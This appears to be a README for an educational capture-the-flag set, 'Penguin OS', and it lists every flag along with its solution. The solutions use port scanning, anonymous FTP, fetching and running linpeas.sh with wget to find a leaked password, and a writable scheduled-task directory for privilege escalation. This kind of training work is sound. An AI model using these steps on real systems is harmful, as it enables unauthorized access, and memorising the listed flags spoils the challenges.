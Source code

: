 # Challenge

**Multi Challenge:** `True`
**Ports Open:** 20,22,2121

---

# Challenge 1

**Name:** Penguin OS: For the FTP

**Category:** Computers and Networks

**Difficulty:** Easy

**Flag:** `UWA{fTpLipP3r5}`

## Description

Mumble has made a *Penguin OS* server that all penguins can use. He placed the shared credentials for all penguins on a **FTP server** that has **Anonymous login enabled**. However, Mumble does not want pesky humans to be able to connect and corrupt his glorious server. So he did something sneaky **changed the port of the FTP server**.

Can you find the password for the the shared account on the FTP server?

## Hint

You will need to use `nmap` to do a port scan. Use the `-Pn` option if you are having issues doing the port scan.

## Solution

Run `nmap` to scan the server.

```
nmap -sC -Pn 10.10.10.10
```

Connect to the FTP server.

```
ftp -P 2121 10.10.10.10
```

Login using the `Anonymous` account and download the `note-to-flipper-pals.txt` file by using the FTP `get` command.

---

# Challenge 2

**Name:** Penguin OS: Sea Shells

**Category:** Computers and Networks

**Difficulty:** Easy

**Flag:** `UWA{sEcure_S3a_sH3lLs_bI_tH3_sEa_sH04e}`

## Description

Use `ssh` to gain access to the server. The flag is located at `/home/penguinusr/flag2.txt`.

## Solution

Legit just use `ssh` to connect to the server as `penguinusr`.

---

# Challenge 3

**Name:** Penguin OS: Peas in a Pod

**Category:** Computers and Networks

**Difficulty:** Medium

**Flag:** `UWA{d0Nt_pVt_s3Ns1TiV3_d4t4_iN_l000000g5}`

## Description

Now that you have access to the server, use the [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) enumeration tool from [PEASS-ng](https://github.com/carlospolop/PEASS-ng) to see if you can find a *password* for the account named `alex`.

*The server is configured to only allow creating files and folders in the `/tmp` folder.*

**Warning: Files are wiped every 5 minutes from the `/tmp` folder**

## Hint

The task for this challenge is to figure out a way to get `linpeas.sh` onto the server. Maybe there is a *tool* for downloading files that is on the Linux server?

## Solution

Students can use `wget` to download linpeas. However, to download the file they need to be in the `/tmp` folder to have write access.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Once the file is downloaded, first set it to be executable `chmod +x linpeas.sh` and execute it. `linpeas.sh` will find the password for the account `alex` in a log file in `/var/log/supervisor/fixpasswords.log`.

---

# Challenge 4

**Name:** Penguin OS: Scheduled Hack

**Category:** Computers and Networks

**Difficulty:** Hard

**Flag:** `UWA{d0Nt_g0oF_y0_sCh3dUl3d_t4sK5}`

---

## Description

`mumble` left a passive aggressive note to `alex` that can be read at `/home/alex/note-to-alex.txt`.

*Based on the note, can you figure out a way to read the final flag at `/home/mumble/flag4.txt`.*

---

## Hint

You will need to write a script to read `/home/mumble/flag4.txt`. Analyse the note and figure out how to get your script to execute as the user `mumble`.

---

## Solution

As the note explains, there is a scheduled task that executes all script files in `/opt/admin-scripts` using the `mumble` account. This allows you to execute any commands as the `mumble` account!

For an example, the following script will print the flag and the output will be saved in `/opt/admin-scripts-output` folder.

```bash
#!/bin/bash

cat /home/mumble/flag4.txt
```

Set the file to executable and copy into `/opt/admin-scripts` and wait until the scheduled task is triggered.

---

## How to run locally

Run the `bash` script in `challenge` named `start_docker.sh`.